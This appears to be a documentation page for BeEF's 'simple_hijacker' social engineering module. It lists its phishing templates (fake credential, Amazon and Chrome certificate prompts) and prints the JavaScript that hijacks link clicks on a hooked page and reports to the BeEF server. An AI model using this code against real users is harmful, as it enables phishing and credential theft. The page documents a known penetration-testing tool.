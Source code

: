 ## Summary
* **Objective**: Hijack clicks on links to display what you want.
* **Authors**: gallypette
* **Browsers**: All (user notified)
* **Parameters** :
  * **targeted domains** : Only links including one of this domain will be targeted (domains are separated by a comma)
  * **Template to use** : List of template for social engineering attacks : credential, confirmbox, amazon, chromecertbeggar, chromecertbeggar2
* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/simple_hijacker)

## Internal working

Basically, this module will take any link in the page, check if it target one of the domains given and load the template when the link is clicked.

```javascript
    $j('a').click(function(e) {
      e.preventDefault();
      if ($j(this).attr('href') != '')
      {
        if( <% target.each{ |href| %> $j(this).attr('href').indexOf("<%=href%>") != -1 <% if href != target.last %> || <% else %> ) <% end %><% } %>{	
          <%
              tplpath = "#{$root_dir}/modules/social_engineering/simple_hijacker/templates/#{@choosetmpl}.js"
              file = File.open(tplpath, "r")
              @template = file.read
          %>
          <%= @template %>
          beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result=Template "<%= @choosetmpl %>" applied to '+$j(this).attr('href'));
        }
      }
    });
```

## Screenshots 

_Command_ :
[[Images/module-simplehijacker1.png|align=center]]

_Amazon template_ :
[[Images/module-simplehijacker2.png|align=center]]

_Confirmbox :_ :
[[Images/module-simplehijacker3.png|align=center]]

_Chrome Cert 1:_ :
[[Images/module-simplehijacker4.png|align=center]]

_Chrome Cert 2:_ :
[[Images/module-simplehijacker5.png|align=center]]

## Feedbacks

* Domains are really important as the name should be included in the link. Links which are not included in this domain's list will not redirect to the correct URL anymore.
